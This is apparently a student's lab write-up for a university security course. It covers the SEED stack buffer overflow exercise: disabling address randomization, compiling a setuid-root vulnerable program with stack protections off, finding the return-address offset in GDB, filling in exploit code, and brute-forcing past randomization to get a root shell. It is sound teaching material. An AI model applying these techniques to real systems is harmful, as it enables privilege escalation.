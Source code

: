 # CSUS CSC154: Lab 1
[Lab 1 PDF](./writeup/pdf/CSC154_Lab1_Ryan_Kozak.pdf)

## Introduction
Buffer overflow is defined as the condition in which a program attempts to write data beyond the boundaries of pre-allocated fixed length buffers. This vulnerability can be utilized by an attacker to alter the flow control of the program, even execute arbitrary pieces of code. This vulnerability arises due to the mixing of the storage for data (e.g. buffers) and the storage for controls (e.g. return addresses): an overflow in the data part can affect the control flow of the program, because an overflow can change the return address.

### Initial Setup
Most modern Linux-based operating systems implement address space randomization, by default, in order to to randomize the starting address of the heap and stack. In this lab we began by disabling this feature in order to simplify our buffer overflow attack by more easily calculating the return address. Address randomization is turned off via the following command `sudo  sysctl -w kernel.randomize_va_space=0`.

Next we download the vulnerable program **[stack.c](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Buffer_Overflow/files/stack.c)**, and the exploit code **[exploit.c](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Buffer_Overflow/files/exploit.c)**.

After this we compile the vulnerable program with an executable stack via `sudo gcc -o stack -z execstack -fno-stack-protector stack.c`. We then set ownership of the vulnerable program to the root user via `sudo chown root stack`. Finally we make the vulnerable program *set-root-uid* by issuing `sudo chmod 4755 stack`.

![setup](./writeup/images/setup.png)
**Figure 1**: Intial setup of Task 1.

We're now ready to begin exploiting the buffer overflow vulnerability in **stack.c**.

## Task 1: Exploiting the Vulnerability (No Address Randomization)

### Calculating the return address
In order to achieve a buffer overflow, we must first calculate where the return address lies on the stack. Running the vulnerable executable in *GDB* allows us to print the address of *buffer* and the *ebp* register. These values can be used to calculate the address of where the function returns.

First recompile **stack.c** to create a copy we're able to work with via `gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c`. Now the executable we'll debug is called *stack_gdb*. Furthermore, we need a file named *badfile* in our directory in order to execute the program correctly. So we create an empty file with that name via `echo "" >> badfile`.

![stack_gdb](./writeup/images/stack_gdb.png)
**Figure 2**: We are now ready to begin debugging.

We issue the command `gdb stack_gdb` to begin debugging the vulnerable executable. First we set a break point at the `bof()` function, where our buffer overflow vulnerability lies via `b bof`, and then issue `run` to hit said breakpoint.

![breakpoint_bof](./writeup/images/breakpoint_bof.png)
**Figure 3**: GDB debugger at `bof()` breakpoint.

Now that we've reached our breakpoint at `bof()`, we print our address values for the *buffer* and *ebp* register. Subtracting the address of *buffer* from *ebp* will allow us to calculate the return address.

![offset_32](./writeup/images/offset_32.png)
**Figure 4**: Offset is 32 bytes.

Since we see the value of the offset is 32 bytes, we can calculate the return address to be 36, as it's 4 bytes above this value in the stack. We can now complete our *exploit.c* file by adding the following code in `main()`.


```c
    /* You need to fill the buffer with appropriate contents here */
	  // From tasks A and B
	  *((long *)(buffer + 36)) = 0xbffff108 + 0x100;

	  // Place the shell code towards the end of the buffer
	  memcpy(buffer + sizeof(buffer) - sizeof(shellcode) , shellcode , sizeof(shellcode));
```


We then compile our exploit code via `gcc -o exploit exploit.c`, and run the exploit to generate the contents of our *badfile*. When we run the vulnerable program at this point we're able to cause a buffer overflow and achieve a root shell.

![rooted](./writeup/images/rooted_1.png)
**Figure 5**: Root shell.


## Task 2: Exploiting the Vulnerability (Address Randomization)
For this exercise we turn address randomization back on via `sudo  sysctl -w kernel.randomize_va_space=2`. Now when we run the same attack which previously succeeded, we get a segmentation fault.

![seg_fault](./writeup/images/seg_fault.png)
**Figure 6**: Segmentation fault caused by address randomization.


By running our attack in a loop, we're able to brute-force our return address. The following code runs our attack multiple times, measuring both the time elapsed and number of attempts before successfully guessing the return address and  gaining a root shell.   

Thanks to Professor Dai for providing this script to me for making these calculations.  

```bash
#!/bin/bash
SECONDS=0
value=0
while [ 1 ]
do
  value=$(( $value + 1 ))
  duration=$SECONDS
  echo "$(($duration / 60)) minutes and $(($duration %60)) seconds elapsed."
  echo "The program has been running for $value times."
  ./stack
done
```

![rooted again](./writeup/images/rooted_2.png)
**Figure 7**: Rooted with address randomization enabled.

The attack ran for 31 minutes & 36 seconds (20,114 times), before we finally gain our root shell.
